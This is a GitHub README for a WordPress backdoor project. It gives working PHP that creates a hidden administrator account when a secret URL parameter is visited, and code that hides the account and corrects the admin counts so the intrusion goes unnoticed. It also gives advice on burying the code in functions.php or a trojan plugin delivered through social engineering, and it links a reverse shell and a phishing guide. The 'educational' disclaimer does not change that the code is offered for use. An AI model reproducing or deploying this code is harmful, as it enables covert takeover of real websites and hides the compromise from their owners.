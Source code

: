![logo](/logo.png)
![version](https://img.shields.io/badge/version-1.0-blue) ![version](https://img.shields.io/badge/tested-locally-green) ![version](https://img.shields.io/badge/language-PHP-purple)

## Huge Update!

**I have decided to take this repo a step further and make a step by step guide on how to implement it in a real case scenario with a phishing campaign based on a recently delivered phishig campaign to WordPress admins. [Here](https://amtzespinosa.github.io/posts/wordpress-backdoor-plugin/) you can check the full article!**

## Disclaimer
**This is for educational purposes only.** I am not liable for any indirect, incidental, special, consequential or punitive damages, or any loss of profits or revenue, whether incurred directly or indirectly, or any loss of data, use, goodwill, or other intangible losses, resulting from 

 1. your access to this resource and/or inability to access this resource
 2. any conduct or content of any third party referenced by this resource, including without limitation, any defamatory, offensive or illegal conduct or other users or third parties
 3. any content obtained from this resource.

## Files

 - [backdoor.php](/backdoor.php) - code to set the backdoor.
 - [hidden_admin.php](/hidden_admin.php) - code to hide users (the user created by backdoor.php).
 - [wp-backdoor.zip](/wp-backdoor.zip) - the code made WordPress plugin.
 - [wp-backdoor.php](/wp-backdoor/wp-backdoor.php) - code used for the plugin.
 - [reverse_shell.php](/reverse_shell.php) - Pentest Monkey PHP Reverse Shell. Old but gold.

## Proof of Concept
Many times I have asked myself how to maintain access to a compromised **WordPress** site for the sake of surveillance/data gathering/etc... Apart from reverse shells, of course, because I see some issues with the reverse shells stuff. I know they're all rectifiable but there are many things to have into consideration if in a rush:

 1. You have to throw the reverse shell to your IP - revealing info about you.
 2. Proxy then! - I don't trust free proxies... they're down, slow, instable...
 3. A reverse shell is just that: a shell - you can do a lot of stuff but it's not an easy GUI.
 4. Not precisely hidden - unless you hide the malicious code really well, it will be detected very fast.
 5. And after you get the shell you have to escalate privileges.

So I thought... what about **a dormant/hidden admin account** you can activate whenever you want and access (via wp-login) the core of the site inadvert?

Well, here's the first draft of this thought.

The starting point is: **you already have access.** How? That's up to you and beyond the scope of this code. But, in case you want to use it to gain access, you'll need a Trojan Horse and good social engineering skills.

To explain the **WP Backdoor** I will divide the code in three parts: 

 1. Creating the admin user.
 2. Hiding the admin user.
 3. Installing the backdoor.

## Creating the new_admin

WordPress allows us to do everything by code. That means we can actually create users with a few lines of code. But to go further, let's trigger that user creation by visiting a specific URL:

    add_action( 'wp_head', 'wp_backdoor' );
    
    function  wp_backdoor() {
	    if ( $_GET['backdoor'] == 'go' ) {
		    require( 'wp-includes/registration.php' );
		    if ( !username_exists( 'new_admin' ) ) {
			    $user_id = wp_create_user( 'new_admin', 'new_pass' );
			    $user = new  WP_User( $user_id );
			    $user->set_role( 'administrator' );
		    }
	    }
    }

By visiting the URL: *https://[insert website here]*/**?backdoor=go**, automatically a new user called **new_admin** will be created. This new user will have the role of administrator and its privileges and the password would be **new_pass.**

Now we have the user but it's in plain sight and would be easily noticed by others. So it's time to hide it!

## Hiding the new_admin

This code has two parts: hiding the **new_admin** and making everything look right.

Code for hiding a user:

    add_action('pre_user_query','dt_pre_user_query');
    
    function  dt_pre_user_query($user_search) {
	    global  $current_user;
	    $username = $current_user->user_login;

	    if ($username != 'new_admin') {
		    global  $wpdb;
		    $user_search->query_where = str_replace('WHERE 1=1',
			    "WHERE 1=1 AND {$wpdb->users}.user_login != 'new_admin'",$user_search->query_where);
        }
    }

But without the next piece of code there would be some hints that something is happening. In example: there's only one admin but the total count of admins is 2. Funky...

So let's correct those flaws...

    add_filter("views_users", "dt_list_table_views");
    
    function  dt_list_table_views($views){
	    $users = count_users();
	    $admins_num = $users['avail_roles']['administrator'] - 1;
	    $all_num = $users['total_users'] - 1;
	    $class_adm = ( strpos($views['administrator'], 'current') === false ) ? "" : "current";
	    $class_all = ( strpos($views['all'], 'current') === false ) ? "" : "current";
	    $views['administrator'] = '<a href="users.php?role=administrator" class="'  .  $class_adm  .  '">'  .  translate_user_role('Administrator') .  ' <span class="count">('  .  $admins_num  .  ')</span></a>';
	    $views['all'] = '<a href="users.php" class="'  .  $class_all  .  '">'  .  __('All') .  ' <span class="count">('  .  $all_num  .  ')</span></a>';
	    return  $views;
    }

And there we go! Now our backdoor would be unnoticed unless someone carries out a thorough scan of the site. But... How can we stuff this code into a WordPress site?

Well, here are some ways. Sure there are more. Let your imagination be the limit!

## Setting up the backdoor
Depending on your intentions this would be your first or your last step. If you are using this method for persistence then it would be your last step and you should have access already.

In case you want to gain access, you should start here.

### Persistence

If you already have access, just copy the three code blocks together into **functions.php.** Not on top, not at the bottom, right in the middle. I have tried to do it around line 150. With a quick look to the code it looks legit.

Once it's pasted and saved, backdoor is ready to be used. 

You can use a Reverse Shell to do this task 😉

### Gain access

We can hide this malicious code into a WordPress plugin. This method can be used for persistance as well but have some inconvenients. The main one is that, once the plugin is deactivated, so does the hiding code and your backdoor would be visible.

We can make our own plugin to disguise the code or download a legit plugin, stuff it inside and - for both cases with a bit of social engineering, make the admin install the plugin.

I am giving you a simple plugin containing just the malicious code. It is not disguised, just a sample. If you feel like, you can also learn how to make legit plugins with the WordPress documentation. 

## Final thoughts
I know this could be better. And it will. My future improvements would probably go around using a plugin to write into functions.php so once it is activated, code is stuffed in functions.php and the plugin is not needed anymore.

Be careful who you let in your site. Update everything, revise the core code and delete  unuseful stuff you don't need.

That's it. If you want to add more info, code or anything I'll be pleased. Happy hacking!

